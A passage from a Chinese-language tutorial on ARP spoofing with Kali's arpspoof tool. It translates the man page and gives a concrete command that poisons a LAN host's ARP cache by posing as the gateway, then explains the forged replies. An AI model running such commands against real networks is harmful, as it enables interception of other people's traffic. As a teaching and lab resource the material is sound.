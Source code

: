 **4. 利用Arpspoof进行欺骗攻击**
Kali自带的Arpspoof可以很好的进行欺骗，man arpspoof查看官网手册（网上翻译）：

```
名字 
    arpspoof # 截获交换局域网中的数据包

用法
    arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
    # arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。

参数
    -i interface
        # 指定要使用的接口（即指定一块网卡）

    -c own|host|both
        # 指定在恢复ARP配置时使用的硬件地址；当在清理（cleaning up）时，数据包的源地址可以用自己的也可以用主机（host）的硬件地址。使用伪造的硬件地址可能导致某些配置下的交换网络、AP网络或桥接网络通信中断，然而它比起默认值————使用自己的硬件地址要工作地更为可靠。

    -t target
        # 指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机。

    -r  
        # 毒化两个主机（目标和主机（host））以捕获两个方向的网络流量。（仅仅在和-t参数一起使用时有效）

    host   #你想要截获数据包的主机 (通常是网关)。
```

**5. 主机A作为网关主机欺骗**
命令语句

```
arpspoof -i eth0 -t 192.168.11.105 192.168.1.1
```

[![img](../../../../../ImageAssets/t01364b901401aae698-1573358522333.jpg)](https://p3.ssl.qhimg.com/t01364b901401aae698.jpg)
执行命令，Kali会向主机B发送ARP响应包，响应包的内容是Kali的ip-mac地址，而响应包里的ip则是网关主机ip地址。每一行代表一个响应包。从左到右：自己Kali的mac、主机B的mac、帧类型码(0806，代表ARP包)、包大小、包内容。
